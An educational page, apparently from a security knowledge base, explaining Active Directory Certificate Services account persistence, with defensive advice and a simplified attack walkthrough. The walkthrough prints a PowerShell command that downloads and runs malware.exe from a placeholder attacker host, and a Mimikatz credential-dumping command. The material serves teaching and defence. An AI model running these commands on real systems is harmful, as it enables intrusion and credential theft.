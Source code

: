 # Windows AD CS Account Persistence


# 👉 Overview

---

### 👀 What ?

> Windows AD CS Account Persistence is a technique where an attacker gains persistence in a network through the Active Directory Certificate Services (AD CS). AD CS is a Windows Server role that allows organizations to create and manage public key certificates used in software security systems that employ public key technologies. When improperly configured, an attacker with sufficient privileges can abuse this service to generate certificates, impersonating any user and gaining control over the network.
> 

### 🧐 Why ?

> Understanding Windows AD CS Account Persistence is crucial for both IT administrators and cybersecurity professionals. For IT administrators, understanding this technique can help them configure the AD CS properly, reducing the risk of an attacker gaining persistence in the network. For cybersecurity professionals, understanding this technique can help them detect and respond to such attacks more effectively. Additionally, as Active Directory is widely used in business environments, this technique is particularly relevant to those working in or with corporate networks.
> 

### ⛏️ How ?

> To implement Windows AD CS Account Persistence, an attacker would first need to gain initial access to the network, likely through another attack vector. Once they have sufficient privileges, they can abuse the AD CS to generate a certificate for any user in the network. This certificate can then be used to authenticate as that user, giving the attacker their privileges. To protect against this, IT administrators should ensure that only trusted, necessary users have the ability to generate certificates. Regular monitoring and auditing of certificate generation and usage can also help to detect any misuse.
> 

### ⏳ When ?

> The use of Windows AD CS Account Persistence has been seen in various real-world attacks, particularly those targeting large organizations. However, the concept of abusing certificate services for persistence is not a new one and has been a known risk in cybersecurity for many years.
> 

# ⚙️ Technical Explanations

---

Windows AD CS Account Persistence is a technique involving the misuse of the Active Directory Certificate Services (AD CS) role in Windows Server. AD CS is a server role that allows organizations to create and manage public key certificates used in software security systems that employ public key technologies.

In this technique, an attacker who has gained sufficient privileges can abuse the service to generate certificates. These certificates can be generated for any user in the Active Directory through the use of the Certificate Authority (CA) and Certificate Templates. The CA is a trusted entity that issues digital certificates, which certify the ownership of a public key by the named subject of the certificate. Certificate Templates define the format and content of a certificate based on its intended usage.

The attacker can then impersonate another user by using the generated certificate to authenticate as that user, therefore gaining their privileges. This process allows the attacker to maintain a persistent presence in the network, which can be very challenging to detect and remove.

To protect against this, IT administrators need to ensure proper configuration of the AD CS. This includes limiting the ability of users to generate certificates to only those who are trusted and require this capability for their role. Furthermore, it is necessary to regularly monitor and audit certificate generation and usage to detect any potential misuse. Regularly updating and patching the Windows Server can also help to prevent known vulnerabilities from being exploited.

Understanding this technique is crucial for IT administrators and cybersecurity professionals. For IT administrators, it can help them properly configure the AD CS to reduce the risk of an attacker gaining persistence in the network. For cybersecurity professionals, it can assist in detecting and responding to such attacks more effectively.

This technique has been observed in real-world attacks, particularly those targeting large organizations. However, the concept of abusing certificate services for persistence is not new and has been a known risk in cybersecurity for many years.

An example of Windows AD CS Account Persistence might look like the following:

1. **Initial Access**: An attacker gains access to a network, perhaps through a phishing attack targeting an employee's email account. The attacker might use a tool like PowerShell to execute their commands:
    
    ```powershell
    Invoke-WebRequest -Uri <http://attacker.com/malware.exe> -OutFile C:\\temp\\malware.exe
    Start-Process "C:\\temp\\malware.exe"
    
    ```
    
    The above command downloads a malicious executable from the attacker's server and runs it.
    
2. **Privilege Escalation**: The attacker then needs to elevate their privileges. They might exploit a known vulnerability or use a tool like Mimikatz to extract credentials:
    
    ```powershell
    Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
    
    ```
    
    This command dumps the credentials of logged-in users.
    
3. **AD CS Misuse**: Now with sufficient privileges, the attacker can create a certificate. They might use certreq, a command-line utility in Windows:
    
    ```powershell
    certreq -new request.inf certname.cer
    
    ```
    
    The above command generates a new certificate request based on the settings in the `request.inf` file and outputs the certificate to `certname.cer`.
    
4. **Persistence**: The attacker can now use the generated certificate to authenticate as another user, maintaining their presence in the network.

To defend against such an attack, IT administrators should:

- Limit certificate creation permissions to trusted users
- Regularly audit and monitor certificate creation and usage
- Patch Windows Servers regularly to prevent known vulnerabilities from being exploited

This is a simplified example. Real-world attacks can be much more complex, using a variety of tools and methods to avoid detection.
